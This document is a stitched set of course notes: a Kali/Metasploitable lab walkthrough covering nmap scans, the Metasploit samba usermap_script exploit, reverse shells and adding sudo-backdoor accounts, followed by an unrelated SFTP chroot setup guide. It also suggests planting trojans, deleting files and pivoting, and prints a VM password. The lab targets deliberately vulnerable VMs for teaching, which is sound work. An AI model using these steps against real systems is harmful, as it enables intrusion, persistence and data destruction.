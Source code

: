 ## Security Fundamentals

Why Kali?

Environment Prep
Download a copy of Kali and import the image into virtualbox
Download a copy of Metasploitable and import the image into virtualbox
Download a copy of Metasploitable3 and import the image into virtualbox

### Environment Prep

Step 1: Launch your Kali VM and make sure the network settings are set to bridged mode
Step 2: Launch your Metasploit VM and make sure the network settings are set to bridged mode
Step 3: If you downloaded my Kali prebuilt image use username of devops and the password “D3v0psCr3w!” otherwise use the username and password you created.

Step 4: Verify that your system has a similar IP to your Kali Linux VM.
Step 5: For example if your IP address was 192.168.1.2 your Kali VM’s IP should be 192.168.1.xx an IP from
Once you have established that your environment is setup properly you are ready to begin

### Reconnaissance

Run a NMAP scan to what’s vulnerable
Host only scan: nmap xxx.xxx.xxx.xxx -sn (shows what hosts are alive)
Quick NMAP scan: nmap –F xxx.xxx.xxx.xxx (scans 100 ports per host)
Host identification scan: nmap –sV -O xxx.xxx.xxx.xxx (what’s important here)
Longer more thorough scan – nmap –p- xxx.xxx.xxx.xxx (scans all ports)

### Reconnaissance

When running a nmap scan you can use the following to pipe the output into a file so that you can reference the hosts that you found that might be available to exploit
nmap xxx.xxx.xxx.xxx -sn > ~/ipscan.txt
You can also run a scan pre and post starting your metasploitable VM and run the scan results through vimdiff to narrow down the results.
Cmd Example: vmdiff before.txt after.txt

Evaluate

How many hosts did you find?
What ports are available to exploit?
What kind of exploit or brute for attack can you run against those ports?
Run an exploit on the system to obtain reverse shell or brute force known accounts

Exploit
www.tekperfect.com
9
When executing an exploit please remember that you may need to specify the following options.
set RHOSTS xxx.xx.xxx.xxx - This is the command you use to set the host you are going to run the exploit against once you locate it on your network
set RPORT xxxx - This is the command you use to set the port of the host you are trying to exploit
setg RHOSTS - sets the target IP globally so that you don't have to set the target IP each time you switch exploits
run - Starts the exploit against the system you specified with the set rhost command.
Other options: set username, set password, set

Exploit
www.tekperfect.com
10

set targeturi - This is the root folder that is searched when an exploit is run
set threads - This is the number of threads you want to launch against a host you want to attack
set srvport - This is the port you will deliver the exploit from meaning a port on your system
grep exploit search service_type - Use this tool to search for the specific types of exploits you want to launch against a target.

Exploit
www.tekperfect.com
11

use exploit/multi/samba/usermap_script - This is the samba exploit you can launch against the metasploitable linux server
set rhosts xxx.xx.xxx.xxx - This is the command you use to set the host you are going to run the exploit against once you locate it on your network
run - Starts the exploit against the system you specified with the set rhost command.
reverse shell - is the access you have when you have successful executed the exploit against the vulnerable system.

Create, Elevate & Gain access
www.tekperfect.com
12
useradd username - create an account on the system via reverse shell
passwd username - Change the password on the account you just created
Elevate Privileges - Process of granting privileges to a known or created account to gain root level access to system
usermod -a -G sudo username - Add the account to the sudo group
usermod -a -G admin username - Add the account to the admin group

Connect & Elevate Access
www.tekperfect.com
13
ssh username@xxx.xxx.xxx.xxx - Connect to a remote or local system via ssh with a named account that you know the password to.
sudo command-name- Run a command with root or elevated privileges example: “sudo passwd username” changes the password of an account

Now What?
www.tekperfect.com
14

Add additional accounts
Search the system for sensitive data
Delete files
Change data on system or services running on the system
Plant a virus or trojan
Attack other systems from this system

Why is this exercise important?
www.tekperfect.com
15
It’s vital to understanding the command line
It’s critical to understanding security and vulnerabilities
If you don’t practice using these tools you will not understand the material

Hacking Exercise
www.tekperfect.com
16
Use Kali to find exploits in Metasploitable and Metasploitable3
Break up into two team and name your team
Team with the most points wins
Total possible points 400

Hacking Exercise
www.tekperfect.com
17
120 Possible points for exploits
120 possible points for demo or recording exploints
120 possible points for documenting how each exploit works
40 points for the best presentation
Winning team gets these t-shirts and \$250

## Metasploitable Toutorial

1. Download Kail and setup system [Kali Setup](kali.md)
2. Download Metasploitable ISO and install system
3. https://drive.google.com/open?id=165dAQCKKpjISinEq1Z6bDczW7_CDsGP1
4. Run metasploit against the Linux systems using exploits that pertain to the open ports on the system by running a NMAP scan of said system.
5. Launch Metaspolit
6. Run a use exploit/name_of_exploit/
7. use exploit/exploit_name
8. set payload exploit name
9. Or run this command use exploit_name
10. exploit
11. show options
12. set SRVHOST xxx.xxx.xxx.xxx (IP of your Kali Linux host)
13. set LHOST xxx.xxx.xxx.xxx (IP of your linux Host)
14. set RHOST xxx.xxx.xxx.xxx (IP of your linux Host)
15. show options
16. exploit
17. Run command against exploit system to obtain root elevate your privileges, create a file on the system, or any action that would prove you were able to gain access to the host.
18. Remember that when you have executed a working exploit you will not typically have a prompt to work from.
19. Once you find a working exploit reach out to the DevOps channel and let everyone know how you executed it.

### sftp-setup-ubuntu-ssh

Well, would you transmit your private details (including your password) in plain text? No? Well, FTP does. FTP is one of several protocols on a computer that transmits usernames and passwords in plain text across the internet (POP is another one, so we advise that you use secure email connections – but that’s another post. Which I haven’t written yet). If your email is sniffed mid-transmission, the hackers can find out all about your plans to go bowling after work on Friday. But if your FTP details are sniffed mid-transmission, your entire server security is compromised. Trust me – you don’t want that to happen.

SFTP (which, despite the name, is absolutely no relation to FTP) avoids that massive security risk by transmitted everything in encrypted form. It’s much, much harder to intercept.

It’s also incredibly hard to find a good tutorial on how to set it up. So here I’ll try to fill that gap.

The Problem:

I need to set up an SFTP server so that users can log in, update their own web files, but restrict users from seeing anyone else’s files. All web folders are in the /var/www/ folder. As we don’t have any existing users, I will assign usernames that match those folders, so access to the /var/www/petetest folder will be allowed to the user petetest.

The Steps:

1. Do NOT install an FTP program such as proftpd. You just don’t need one; SFTP is handled by the SSH program which is installed by default anyway.

2. (the real step 1) In a text editor, add the following lines to /etc/ssh/sshd_config

Match Group sftpusers
ChrootDirectory /var/www/%u
ForceCommand internal-sftp

What’s happening in these lines? We’re looking for users who are in the group sftpusers. Nobody else will get access to the server. We’re chrooting them (i.e, Jailing the users) to the folder /var/www/{their username}. They will be able to move downwards from that folder, but not up or across. Finally, we’re telling ssh to use its own sftp program.

3. For extra credit, change the Port at the top of this file from 22 to something else (choose a port not in use. e.g 2222). This gives just one extra layer of obfuscation for the hackers to get around.

4. Restart ssh with the following command;

service ssh restart

5. Check your permissions in /var/www

Each folder within /var/www should be owned by root:root, and have the permissions drwxr-xr-x applied to them.

The public folder (i.e the one which the web files are stored in) should be owned by www-data:www-data, and have the permissions drwxr-xr-x

6. Add the user to the correct groups

groupadd sftpusers
usermod -a -G sftpusers {username}
usermod -a -G www-data {username}

7. Try to connect.

The first time you connect, you may get a message such as ‘The server’s host key is unknown. You have no guarantee that the server is the computer you think it is.”. If so, check the host and port, and if they match, you can trust the host.

Common Issues

Note that you cannot chroot to the level of your public html folder – you must be one level above – otherwise you’ll NEVER get the permissions correct. It’s a security issue.

If you can see the folder, but you cannot SFTP a file into it – you don’t have the permissions set correctly. Add the ‘w’ permission to the group www-data
